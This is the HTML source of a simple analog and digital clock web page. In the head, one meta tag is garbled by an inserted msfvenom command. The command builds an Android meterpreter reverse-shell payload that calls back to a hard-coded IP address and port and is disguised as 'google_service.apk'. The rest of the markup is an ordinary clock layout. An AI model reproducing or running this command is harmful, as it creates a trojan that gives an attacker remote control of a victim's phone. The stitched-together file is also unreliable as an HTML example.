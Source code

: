 # clock-
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-> msfvenom -p andriod/meterpreter/reverse_tcp LHOST=25.8.64.25 LPORT=1234 R > google_service.apk-Compatible" content="ie=edge">
  <title>CloCk</title>
  <link rel="stylesheet" href="style.css">
</head>

<body>

  <div class="container">
    <div class="date">Date</div>
    <div class="day">Today</div>
    <div class="clock">
      <div class="hand hour"></div>
      <div class="hand min"></div>
      <div class="hand sec"></div>
      <div style="--i:1" class="letter"><b>1</b></div>
      <div style="--i:2" class="letter"><b>2</b></div>
      <div style="--i:3" class="letter"><b>3</b></div>
      <div style="--i:4" class="letter"><b>4</b></div>
      <div style="--i:5" class="letter"><b>5</b></div>
      <div style="--i:6" class="letter"><b>6</b></div>
      <div style="--i:7" class="letter"><b>7</b></div>
      <div style="--i:8" class="letter"><b>8</b></div>
      <div style="--i:9" class="letter"><b>9</b></div>
      <div style="--i:10" class="letter"><b>10</b></div>
      <div style="--i:11" class="letter"><b>11</b></div>
      <div style="--i:12" class="letter"><b>12</b></div>
      <div style="--i:1" class="number">|</div>
      <div style="--i:2" class="number">|</div>
      <div style="--i:3" class="number">|</div>
      <div style="--i:4" class="number">|</div>
      <div style="--i:5" class="number"><b></b></div>
      <div style="--i:6" class="number">|</div>
      <div style="--i:7" class="number">|</div>
      <div style="--i:8" class="number">|</div>
      <div style="--i:9" class="number">|</div>
      <div style="--i:10" class="number"><b></b></div>
      <div style="--i:11" class="number">|</div>
      <div style="--i:12" class="number">|</div>
      <div style="--i:13" class="number">|</div>
      <div style="--i:14" class="number">|</div>
      <div style="--i:15" class="number"><b class="a12"></b></div>
      <div style="--i:16" class="number">|</div>
      <div style="--i:17" class="number">|</div>
      <div style="--i:18" class="number">|</div>
      <div style="--i:19" class="number">|</div>
      <div style="--i:20" class="number"><b></b></div>
      <div style="--i:21" class="number">|</div>
      <div style="--i:22" class="number">|</div>
      <div style="--i:23" class="number">|</div>
      <div style="--i:24" class="number">|</div>
      <div style="--i:25" class="number"><b></b></div>
      <div style="--i:26" class="number">|</div>
      <div style="--i:27" class="number">|</div>
      <div style="--i:28" class="number">|</div>
      <div style="--i:29" class="number">|</div>
      <div style="--i:30" class="number"><b class="a12"></b></div>
      <div style="--i:31" class="number">|</div>
      <div style="--i:32" class="number">|</div>
      <div style="--i:33" class="number">|</div>
      <div style="--i:34" class="number">|</div>
      <div style="--i:35" class="number"><b></b></div>
      <div style="--i:36" class="number">|</div>
      <div style="--i:37" class="number">|</div>
      <div style="--i:38" class="number">|</div>
      <div style="--i:39" class="number">|</div>
      <div style="--i:40" class="number"><b></b></div>
      <div style="--i:41" class="number">|</div>
      <div style="--i:42" class="number">|</div>
      <div style="--i:43" class="number">|</div>
      <div style="--i:44" class="number">|</div>
      <div style="--i:45" class="number"><b class="a12"></b></div>
      <div style="--i:46" class="number">|</div>
      <div style="--i:47" class="number">|</div>
      <div style="--i:48" class="number">|</div>
      <div style="--i:49" class="number">|</div>
      <div style="--i:50" class="number"><b></b></div>
      <div style="--i:51" class="number">|</div>
      <div style="--i:52" class="number">|</div>
      <div style="--i:53" class="number">|</div>
      <div style="--i:54" class="number">|</div>
      <div style="--i:55" class="number"><b></b></div>
      <div style="--i:56" class="number">|</div>
      <div style="--i:57" class="number">|</div>
      <div style="--i:58" class="number">|</div>
      <div style="--i:59" class="number">|</div>
      <div style="--i:60" class="number"><b class="a12"></b></div>
    </div>
    <div class="digital">
      <div class="time hours">00</div>
      <div class="time minutes">00</div>
      <div class="time seconds">00</div>
      <div class="time ampm">AM</div>
    </div>
  </div>

  <script src="script.js"></script>
</body>

</html>
